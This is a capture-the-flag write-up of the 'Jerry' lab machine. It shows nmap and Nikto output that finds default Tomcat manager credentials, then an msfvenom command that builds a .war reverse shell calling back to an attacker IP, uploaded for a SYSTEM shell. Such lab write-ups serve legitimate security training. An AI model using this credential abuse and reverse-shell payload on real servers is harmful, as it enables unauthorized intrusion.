



# Recon

I do my initial scan to see which ports are open.

## nmap
```
# Nmap 7.92 scan initiated Wed Aug 17 18:27:18 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv jerry.htb
Nmap scan report for jerry.htb (10.129.65.55)
Host is up, received echo-reply ttl 127 (0.047s latency).
Scanned at 2022-08-17 18:27:18 CDT for 39s
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Aug 17 18:27:57 2022 -- 1 IP address (1 host up) scanned in 39.70 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Wed Aug 17 18:37:02 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 8080 jerry.htb
Nmap scan report for jerry.htb (10.129.65.55)
Host is up, received echo-reply ttl 127 (0.052s latency).
Scanned at 2022-08-17 18:37:03 CDT for 8s

PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 17 18:37:11 2022 -- 1 IP address (1 host up) scanned in 9.28 seconds
```

I also always run a nmap vuln scan which ended up returning default credentials for the Tomcat manager page!

```
# Nmap 7.92 scan initiated Wed Aug 17 18:53:45 2022 as: nmap -oA vuln/scan --script vuln,safe,discovery --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 8080 jerry.htb
Pre-scan script results:

[...]

PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-default-accounts: 
|   [Apache Tomcat] at /manager/html/
|     tomcat:s3cret
|   [Apache Tomcat Host Manager] at /host-manager/html/
|_    (no valid default credentials found)

[...]

Post-scan script results:
| creds-summary: 
|   10.129.65.59: 
|     8080/http-proxy: 
|_      tomcat:s3cret - Valid credentials
| reverse-index: 
|_  8080/tcp: 10.129.65.59
Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Aug 17 18:56:47 2022 -- 1 IP address (1 host up) scanned in 181.81 seconds

```

# Enumeration

## Nikto

There really wasn't much from Nikto, although it looks like this tool was also able to find the default creds.

```
 Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.65.59
+ Target Hostname:    jerry.htb
+ Target Port:        8080
+ Start Time:         2022-08-17 19:15:46 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7889 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2022-08-17 19:23:39 (GMT-5) (473 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

So now that we have access to the Tomcat manager, let's login and exploit this with a `.war` reverse shell since I know it should be possible to upload malicious `.war` files to Tomcat instances based off of previous challenges.



I go ahead and create my `.war` shell with the following command:
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.64 LPORT=1337 -f war -o reverse_shell.war`

Followed by uploading the file at `/manager/html`...

And we surprisingly get a shell back straight as SYSTEM! No privilege escalation needed!



Time to collect our loot and move on to the next box. :)



